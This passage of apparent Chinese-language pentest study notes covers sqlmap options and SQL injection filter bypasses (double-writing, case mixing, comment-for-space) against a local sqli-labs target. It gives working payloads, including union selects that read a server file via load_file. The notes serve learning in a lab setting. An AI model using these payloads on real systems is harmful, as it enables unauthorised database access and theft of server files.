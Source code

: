 ## 15. --batch

``` sql
对所有的交互式的都是默认的
sqlmap.py -u http://127.0.0.1/sqli-labs/sqli-labs/Less-1/?id=1 --batch --
flush-session --technique B
简单来说：自动选择默认，中间不需要操作。
```

## 16. --start --stop

``` sql
指定查看列的范围 --start 获取第一个查询输出数据位置 --stop 获取最后查询
输出数据位置 会查询指定位置的列信息。
```

## 17. --first --last

``` sql
指定查看字符的范围 --first 获取第一个查询输出字的字符 --last获取最后查询
的输出字字符
通过--first 2和--last 3指定查看字符范围，只在盲注时使用，因为只有盲注会一个
字一个字猜解。
```

# 常见绕过方式

## 1. 双写绕过

1. 输入order by 查询出字段数为3
2. 输入union select 进行联合查询，发现过滤了union、select
3. 进行双写绕过（select三次）：id=-1'ununionion selselselectectect 1,2,3%23
4. 利用注入漏洞读取 key ： id=-1'ununionion selselselectectect
1,load_file("/var/www/html/key.txt"),3%23

## 2. 大小写绕过

1. 输入order by 查询出字段数为3
2. 输入union select 进行联合查询，发现过滤了union、select
3. 进行大小写绕过：id=-1' uNion seLect 1,2,3%23
4. 读取key：id=-1' uNion seLect 1,load_file("/var/www/html/key.txt"),3%23

## 3. 注释绕过空格

1. 输入`and 1=1 `发现过滤了空格
2. 利用注释符进行进行绕过空格：`id=1'/**/and/**/1=1%23`
3. 使用order by进行判断字段数：`id=1'/**/order/**/by/**/3%23`
4. 使用联合查询：`id=-1'/**/union/**/select/**/1,database(),version()%23`

## 4. 空格其他绕过方式
